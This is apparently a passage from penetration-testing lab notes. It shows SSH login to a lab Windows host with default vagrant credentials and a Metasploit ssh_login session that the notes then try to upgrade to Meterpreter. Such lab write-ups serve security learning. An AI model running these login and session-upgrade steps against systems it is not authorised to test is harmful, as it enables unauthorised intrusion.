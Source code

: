 - User SSH login can be tried

```bash
ssh vagrant@10.2.16.83
# vagrant:vagrant
# WORKS!

ssh administrator@10.2.16.83
# administrator:vagrant
# DOES NOT work!

net localgroup administrators
# "vagrant" is in the Administrators Group
```

![](4-exploitationassets/image-20230424114533652.png)

- Obtain a `Meterpreter` session

```bash
msfconsole
```

```bash
use auxiliary/scanner/ssh/ssh_login
setg RHOST 10.2.16.83
setg RHOSTS 10.2.16.83
set USERNAME vagrant
set PASSWORD vagrant
run
session 1
# CTRL+Z to background

sessions -u 1
	[-] Target is running Windows on an unsupported architecture such as Windows ARM!

# The manual msfvenom payload upload can be tried
```
